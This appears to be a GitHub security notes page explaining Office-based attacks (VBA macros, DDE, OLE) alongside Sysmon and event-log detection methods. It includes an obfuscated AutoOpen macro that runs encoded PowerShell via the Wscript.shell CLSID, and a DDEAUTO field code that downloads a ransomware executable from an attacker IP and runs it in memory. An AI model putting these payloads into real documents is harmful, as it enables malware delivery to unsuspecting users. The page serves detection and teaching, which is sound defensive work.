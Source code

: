 ## Microsoft office Attacks

Microsoft office is  a bundle of software that running under windows operating system (ex: Word, Excel,PowerPoint, etc.)

Microsoft integrate many techniques to facilities the job of the user, like VBA macros to automate tasks, Dynamic Data exchange "DDE" to exchange data between Microsoft process, and object linking & Embedding "OLE" which is successor for DDE, this technologies which were meant to be some thing to make the user tasks easier, were misused by hacker, just like any thing.



### VBA Macros

first I need to clarify a thing, there are 4 different languages that some kind related,

- VB6 "Visual Basic"
  - it's compiled language that produce executables 
- VBA "Visual Basic for Application"
  - it's like VB6 but runs under an application "Micorsoft Office, AutoCAD,SolidWorks"
  - it's not compiled
- VBS "Visual Basic Script"
  - used in Web to access do some manipulation on devices
  - need host to run under it which is WSH " windows script host"
  - Not compiled
- JScript
  - Like VBS but with different syntax
  - also run under  WSH

VBA,and VBS syntax are different but not huge difference
but Jscript has major difference in syntax compared to VBS/VBA



Now, lets go back to VBA macros which used in Microsoft office product

the following macro is a sample of malicious macro that used in word documents
it have a form called "skrfeev" that has 3 controls "lables" contains malicious code



**Label1** contains in the ControlTipText property "new:72c24dd5-d70a-438b-8a42-98424b88afb8"

72c24dd5-d70a-438b-8a42-98424b88afb8 is the CLSID for Wscript.shell, could be found in Registry under

Computer\HKEY_CLASSES_ROOT\Wscript.shell\CLSID in a value called "Default"

using CLSID with GetObject is better that ProgID with CreateObject to bypass some Detection techniques 

**Label2** contains in the ControlTipText property  "PoWeRSheLL -ENCOD"

**Label3** contains in the ControlTipText property  "Malicious Powershell code encoded in Base64"

```vb
Function Func1(Array, Array_index)
  Set Element = Array(Array_index)
  Func1 = (Element.ControlTipText) + ""
End Function

Function GetobJect_xx(ObjectID)
 Set GetobJect_xx = GetObject(ObjectID)
End Function

Sub AutoOpen()
Const_Int = Sqr(4) - 1
ObjectID = Func1(skrfeev.Controls, 1)
If Dummy_Var = 2 Then
  MsgBox ObjectID
End If
GetobJect_xx(ObjectID).Run% Func1(skrfeev.Controls, 2) + Func1(skrfeev.Controls, 0), 8552 - 4
End Sub


```



![Mermaid2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft office Attacks/Misc/Mermaid2.JPG)



## Detection

We can't detect the running of macros, but we can detect the events that happened when file contains macro or file is trusted by user to run its macro

when user trust document or enable editing for it , there is values added to registry to let windows remember user's choice

Data of this value may vary upon the permission

- suffix FF FF FF 7F means enable macro
- suffix 01 00 00 00 means enable for writing

Macros enabling generate not event in office Alerts [Windows Events] "OAlertx.evtx"

**Detection** 

- sysmon

  - Registry edit for \Security\Trusted

  ```xml
  <Sysmon schemaversion="4.00">
  <HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
    <EventFiltering>
  		
  		<RegistryEvent default="include"> 
  			<TargetObject condition="contains">\Security\Trusted</TargetObject>
  		</RegistryEvent>
  		
  	
  	</EventFiltering>
  </Sysmon>
  ```
  
  

RegRipper which is very good tool for registry analysis has a plugin called trusterecords which display files trusted in Microsoft office

------

### Dynamic Data Exchange "DDE"

Dynamic Data exchange is a method that enable office application from getting data from another office application, it can run at startup which means that when word office opens it will run, it help users import data from file to file and do their tasks easily

#### Attack 

*it's not working on Win 10 1809 and above*

Open Word file and create formula



![DDE1](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft office Attacks/Misc/DDE1.png)



![DDE2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft office Attacks/Misc/DDE2.png)



![DDE3](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft office Attacks/Misc/DDE3.png)

when you Toggle Field Codes remove = \\* MERGEFORMAT and place the following

```powershell
{DDEAUTO c:\\windows\\system32\\cmd.exe "/c powershell.exe -nop -ep bypass-C ( [System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://[IP]/ransinvoke.exe')).EntryPoint.Invoke($Null,$Null))"}
```

this will download ransomware from external IP and load it directly in the memory *"the executable must be .net to be able to use this command line and must have no argument in the main function, if it has you have to edit the code in the command line with types of arguments"* 



### Detection

- Windows events
  - Micorsoft Office Alerts [OAlerts] "C:\Windows\System32\winevt\Logs\OAlerts.evtx"
    
    - EventID 300: it will show (c PowerShell) which is /c powershell.exe but it will not show any other details like command line of the PowerShell "we can get PowerShell command from PowerShell logging" but if cmd will run regsrv32 as example, we have no log
      also we don't have the name of the office file to examine it, but we can  look at recent folder for windows or recent folder for Microsoft word to obtain recently opened files
    
    

![DDEOAlert](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft office Attacks/Misc/DDEOAlert.jpg)

---



### Object linking & embedding "OLE"

Object linking and embedding is very awesome feature in office that makes you create objects in an application and copy it to another application(ex: objects like graphs, tables), it is the successor of DDE

to Create it 
Insert --> Object --> Package , Display ICON "choose ICON from WINWORD.exe" --> name the lable --> choose the file 



![OLE](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft office Attacks/Misc/OLE.JPG)



![OLE2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft office Attacks/Misc/OLE2.JPG)

OLE suffered from buffer overflow vulnerabilities that let attacker use it to deliver malwares, the good thing for attackers in this case that when OLE runs their malicious command buried inside the document, there is no "Enable content" button that use have to click on neither popup like in DDE "**CVE-2017-11882**" not working in Win 10 1809 and above





### Detection

for OLE there is no Events and there is no registry key to search so I will talk about general detection



![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft office Attacks/Misc/Mermaid.JPG)



- **sysmon**
  - Process Create
    - Parent process in the office path "Microsoft Office\Office", it contains WINWORD.exe,EXCEL.exe .etc
```xml
<Sysmon schemaversion="4.00">
<HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
  <EventFiltering>
		
		<ProcessCreate default="include"> 
			<ParentImage condition="contains">Microsoft Office\Office</ParentImage>
		</ProcessCreate>
      
	</EventFiltering>
</Sysmon>
```



### Reference

- 1- [VBS tutorial](https://ss64.com/vb/)
- 2- [DDE Security from Micrsoft](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)
- 3- [office exploits](https://github.com/SecWiki/office-exploits)

  